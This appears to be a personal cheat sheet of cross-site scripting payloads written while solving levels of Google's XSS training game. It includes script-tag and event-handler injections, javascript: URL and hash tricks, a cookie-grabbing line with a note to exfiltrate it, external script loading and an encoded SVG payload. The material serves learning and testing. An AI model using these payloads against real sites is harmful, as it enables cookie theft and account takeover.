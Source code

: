 ### General

- Use `alert(document.domain)` instead of `alert(1)` to see exact domain with xss


### With script tag
- Enter search input: <script>alert(123)</script> or %3cscript%3ealert(document.cookie)%3c/script%3e
- <script>localStorage.setItem('Bob', document.cookie)</script>
<!-- Next step would be send ajax request -->


### With tag js attribute
- Post to comments: <b onmouseover="alert('XSS testing!')"></b>


### Location hash is executed from app js script
- https://xss-game.appspot.com/level3/frame#'/><script>alert(1)</script>
                                            ^^^ close image tag and perform script

### Inject to GET param of request

Escape codes: https://www.w3schools.com/tags/ref_urlencode.ASP
'	%27
(	%28
)	%29
;	%3B

- https://xss-game.appspot.com/level4/frame?timer='%2Balert(1)%2B'

<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" /> -----> <img src="/static/loading.gif" onload="startTimer('' + alert(1) + '');">

### JS could be executed with `javascript:` within tag

https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)


/confirm?next=%27%3Balert%281%29%3B%27
              '  ;alert(1);'

setTimeout(function() { window.location = '{{ next }}'; }, 5000);
                                          ^^
setTimeout(function() { window.location = '';alert(1);''; }, 5000);


### JS could be loaded from hash (if there is such logic)

- `https://xss-game.appspot.com/level6/frame#//progsmile.github.io/learn/xss/index.js`

### Load JS via SVG use tag

```html
<svg><use href="dAta:image/s    vg+xml;base64,PHN2ZyBpZD0ieDIiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyI+IDxpbWFnZSBocmVmPSJ4IiBvbmVycm9yPSJhbGVydCgyMzQpIiAvPjwvc3ZnPg==#x2">
```
\\/\\/\\/\\/\\/\\/\\/\\/\\/
```html
<svg id="x2" xmlns="http://www.w3.org/2000/svg"> <image href="x" onerror="alert(234)" /></svg>
```
